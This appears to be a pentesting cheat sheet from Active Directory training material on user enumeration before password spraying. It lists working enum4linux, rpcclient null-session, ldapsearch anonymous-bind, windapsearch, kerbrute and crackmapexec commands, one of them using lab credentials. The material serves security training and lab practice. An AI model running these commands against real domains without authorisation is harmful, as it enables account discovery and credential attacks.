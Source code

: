 # Password Spraying

Detailed User Enumeration

To mount a successful password spraying attack, we first need a list of valid domain users to attempt to authenticate with. There are several ways that we can gather a target list of valid users:

* By leveraging an SMB NULL session to retrieve a complete list of domain users from the domain controller
* Utilizing an LDAP anonymous bind to query LDAP anonymously and pull down the domain user list
* Using a tool such as Kerbrute to validate users utilizing a word list from a source such as the statistically-likely-usernames GitHub repo, or gathered by using a tool such as [linkedin2username ](https://github.com/initstring/linkedin2username)to create a list of potentially valid users
* Using a set of credentials from a Linux or Windows attack system either provided by our client or obtained through another means such as LLMNR/NBT-NS response poisoning using Responder or even a successful password spray using a smaller wordlist

## Get Users list

### using enum4linux

```bash
enum4linux -U $IP  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

### using rpcclient

```bash
rpcclient -U "" -N $IP
```

* `enumdomusers`

```bash
crackmapexec smb $IP --users
```

### Using ldapsearch


```bash
ldapsearch -h $IP -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```


```bash
./windapsearch.py --dc-ip $IP -u "" -U
```

### **Enumerating Users with Kerbrute**


```bash
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc $IP ~/Desktop/jsmith.txt -o valid_ad_users
```


## Using CrackMapExec with Valid Credentials

```bash
sudo crackmapexec smb $IP -u htb-student -p Academy_student_AD! --users
```
